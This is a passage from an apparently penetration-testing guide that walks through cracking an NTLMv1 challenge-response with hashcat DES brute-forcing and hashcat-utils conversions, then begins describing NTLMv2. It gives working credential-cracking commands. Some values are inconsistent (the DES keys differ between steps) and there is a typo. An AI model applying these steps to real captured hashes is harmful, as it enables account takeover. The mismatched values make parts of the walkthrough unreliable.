 Create a file with the contents of:

```bash
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788
```

Run hashcat (distributed is best through a tool such as hashtopolis) as this will take several days otherwise.

```bash
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

In this case we know the password to this is password so we are going to cheat for demo purposes:

```bash
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

We now need to use the hashcat-utilities to convert the cracked des keys into parts of the NTLM hash:

```bash
./hashcat-utils/src/deskey_to_ntlm.pl b55d6d05e7792753
b4b9b02e6f09a9 # this is part 1

./hashcat-utils/src/deskey_to_ntlm.pl bcba83e6895b9d
bd760f388b6700 # this is part 2
```

Ginally the last part:

```bash
./hashcat-utils/src/ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

586c # this is the last part
```

Combine them together:

```bash
NTHASH=b4b9b02e6f09a9bd760f388b6700586c
```

### NTLMv2 Challenge

The **challenge length is 8 bytes** and **2 responses are sent**: One is **24 bytes** long and the length of the **other** is **variable**.

**The first response** is created by ciphering using **HMAC\_MD5** the **string** composed by the **client and the domain** and using as **key** the **hash MD4** of the **NT hash**. Then, the **result** will by used as **key** to cipher using **HMAC\_MD5** the **challenge**. To this, **a client challenge of 8 bytes will be added**. Total: 24 B.
